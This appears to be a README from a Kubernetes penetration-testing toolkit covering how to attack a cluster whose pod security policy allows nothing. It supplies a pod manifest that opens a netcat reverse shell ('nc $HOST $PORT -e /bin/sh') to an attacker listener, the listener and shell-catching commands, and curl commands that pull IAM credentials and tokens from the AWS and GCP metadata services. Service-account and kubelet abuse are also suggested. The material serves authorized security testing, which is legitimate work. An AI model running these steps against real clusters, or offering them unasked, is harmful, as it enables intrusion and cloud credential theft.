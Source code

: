 ## You have nothing

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities.  **Do not despair**, especially if the target cluster is running in a cloud environment. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name```
[pod-nothing-allowed.yaml](pod-nothing-allowed.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-nothing-allowed.yaml 
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/nothing-allowed/pod-nothing-allowed.yaml 
```

#### Exec into pod 
```bash
kubectl exec -it pod-nothing-allowed -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed-revshell
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name```
[pod-nothing-allowed-revshell.yaml](pod-nothing-allowed-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/nothing-allowed/pod-nothing-allowed-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

* **Cloud metadata** - If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both. 

```bash
curl http://169.254.169.254/latest/user-data # aws
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] #aws
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token #gcp
```

* **Overly permissive service account** - If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.
* **Anonymous-auth** - If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 
* **Exploits** - Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
* **Traditional vulnerability hunting** -Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 




# Reference(s): 

* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558